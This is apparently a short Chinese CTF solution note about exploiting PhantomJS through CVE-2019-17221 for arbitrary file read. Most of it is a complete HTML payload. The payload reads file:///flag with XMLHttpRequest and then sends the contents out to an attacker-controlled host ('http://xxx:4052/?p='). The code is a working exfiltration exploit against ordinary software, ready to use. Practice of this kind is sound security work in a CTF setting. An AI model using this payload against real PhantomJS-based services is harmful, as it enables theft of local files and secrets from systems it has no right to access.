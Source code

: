 tags:: CTFWEB/PhantomJS

- # 思路
	- PhantomJS打CVE-2019-17221做文件任意读取
- # PhantomJS文件任意读取
	- ```html
	  <!DOCTYPE html>
	  <html lang="en">
	  <head>
	      <meta charset="UTF-8">
	      <meta name="viewport" content="width=device-width, initial-scale=1.0">
	      <title>Document</title>
	  </head>
	  <body>
	      <script>
	          x = new XMLHttpRequest;
	          x.onload = function(){
	              x = new XMLHttpRequest;
	              x.open("GET", "http://xxx:4052/?p=" + encodeURIComponent(this.responseText))
	              x.send();
	              document.write(this.responseText)
	          }
	          x.open("GET", "file:///flag")
	          x.send();
	      </script>
	  </body>
	  </html>
	  ```